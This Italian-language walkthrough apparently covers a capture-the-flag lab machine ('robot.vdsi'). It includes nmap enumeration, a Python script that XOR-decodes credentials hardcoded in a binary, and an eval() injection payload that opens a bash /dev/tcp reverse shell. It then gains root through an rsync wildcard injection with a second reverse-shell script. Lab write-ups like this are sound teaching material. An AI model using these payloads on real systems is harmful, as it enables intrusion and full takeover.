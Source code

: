 
# Enumerazione

Prima cosa da fare : 
- `nmap -sP <mio_ip>/24` per trovare l'ip della macchina target

Poi nmap su macchina target con :
- `nmap -sn -sC -sV <target_ip>`

Il risultato di nmap sarà il seguente : 

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 12:01 CEST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 12:01 (0:00:02 remaining)
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 95.34% done; ETC: 12:01 (0:00:00 remaining)
Nmap scan report for 10.0.2.5
Host is up (0.000061s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 5b:a3:21:7d:5d:a5:e9:0f:97:12:4f:ec:11:2c:70:a4 (RSA)
|   256 88:9a:df:c4:40:4a:21:97:f9:70:6b:81:7a:52:6b:76 (ECDSA)
|_  256 64:06:54:cd:e5:5d:df:d5:e1:c5:86:68:0e:40:01:60 (ED25519)
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
443/tcp  open  ssl/http nginx 1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=robot.vdsi/organizationName=VDSI/stateOrProvinceName=Lazio/countryName=IT
| Not valid before: 2021-07-20T11:23:27
|_Not valid after:  2022-07-20T11:23:27
| tls-nextprotoneg:
|_  http/1.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.18.0 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
8081/tcp open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
8082/tcp open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:5E:8E:E7 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.96 seconds
```
## Primo approccio

Navighiamo su http://10.0.2.5 e troviamo la pagina di benvenuto di nginx

Eseguiamo un gobuster sul sito e ci trova un endpoint "/connector", lo scarichiamo e lo apriamo con ghidra

Ghidra ci fa vedere il file decompliato, e da come possiamo vedere nel main viene eseguita la funzione `cryptHelper`, che cripta username e password usando determinati dati

Da come possiamo vedere, dopo aver usato al funzione cryptHelper, il risultato viene controllato e confrontato con due variaibli globali : 
- `DAT_0001207b`
- `DAT_00012085`

Che indicano rispettivamente username e password

Clicchiamo su ognugno ed evidenziamo i byte, poi tasto destro -> copy special -> python list, e il risultato dovrebbe essere il seguente

`[ 0x30, 0x0d, 0x13, 0x2e, 0x09, 0x16, 0x24, 0x0d, 0x17, 0x00 ]`

Stessa cosa la facciamo con l'altro dato, e poi usiamo questi dati in uno script python per effettuare il de-xor dei dati, il file si chiama dexor.py, ed è il seguente

```python
ENC_USERNAME = [0x30, 0x0D, 0x13, 0x2E, 0x09, 0x16, 0x24, 0x0D, 0x17, 0x00]
ENC_PASSWORD = [
    0x10,
    0x5B,
    0x13,
    0x78,
    0x09,
    0x49,
    0x24,
    0x5B,
    0x17,
    0x1B,
    0x51,
    0x5D,
    0x70,
    0x1F,
    0x0A,
    0x39,
    0x01,
    0x00,
]

KEY = "TheKey"

def de_xor(encrypted, key) -> str:

    key_idx = 0
    plaintext = ""
    for c in encrypted:
        plaintext += chr(ord(key[key_idx % len(key)]) ^ c)
        key_idx += 1
    return plaintext


print(
    f"username: {de_xor(ENC_USERNAME, KEY)[:-1]}, password:{de_xor(ENC_PASSWORD, KEY)[:-1]}"
)
```

lo eseguiamo e otteniamo delle credenziali, ovvero : 
- Username : `developer`
- Password : `D3v3l0p3rP4$$word`

Con queste credenziali proviamo ad entrare in ssh, ma non ci fa accedere, quindi dobbiamo fare un ulteriore enumerazione

# Enumerazione parte 2 (vhost)

Avevamo visti dalla scansione nmap che c'era un common name, ovvero `robot.vdsi`. Questo ci suggerisce la presenza di un virtual host.

(Se la scansione non va e da problemi del tipo : `dial tcp:lookup robot.vdsi no such host`, si rimedia cosi : 
- Aprire /etc/host
- Aggiungere <target_ip> robot.vdsi)

Proviamo ad enumerare con gobuster, e troviamo un vhost chiamato calculator.robot.vdsi (anche questo va aggiungo come robot.vdsi)

Una volta entrati ci chiede username e password, e qui possiamo usare quelli trovati prima

Controlliamo il codice sorgente della pagina, e troviamo un commento che ci dice che la pagina è stata scritta in python, quindi potrebbe usare la funzione `eval()` che sappaimo essere vulnerabile al **code injection**

Usiamo ciò per prendere la shell

Scriviamo questo nel campo che verrà preso in input : 
- `__import__('os').system("/bin/bash -c 'sh -i >& /dev/tcp/<tuo_ip>/<porta> 0>&1'")`

Dopo aver ottenuto la reverse shell, lanciamo il comando 

>**"python3 -c 'import pty;pty.spawn("/bin/bash")'"**

per spawnare una shell funzionante

Ora siamo l'utente blunder, e dobbiamo fare privilege escalation

# Utente blunder

Vediamo che nella cartella backup_container ci sono un crontab e un file chiamato backup.sh, nel file backup.sh vediamo che viene seguito il comando rsync -a * (la presenza di wildcart ci assicura un possibile exploit)

Vedendo online abbiamo trovato che si può fare la wildcard exploitations, e con rsync basta fare questo

- 1) creiamo un file shell.sh, al cui interno mettiamo la seguente stringa 
	- `bash -c 'bash -i >& /dev/tcp/<tuo_ip>/<porta> 0>&1'`
- 2) poi lanciamo il comando `touch -- '-e sh shell.sh'` e attendiamo la connessione

# Privilege Escalation

In teoria qui c'era da fare un ulteriore passaggio, ovvero passare per l'utente Aris, fare docker escape e poi prendere la shell di root, però una volta lanciato lo script shell.sh l'unica shelle che possiamo ottenere è quella di root, quindi bho

Una volta presa la shell con netcat, saremo utente ROOT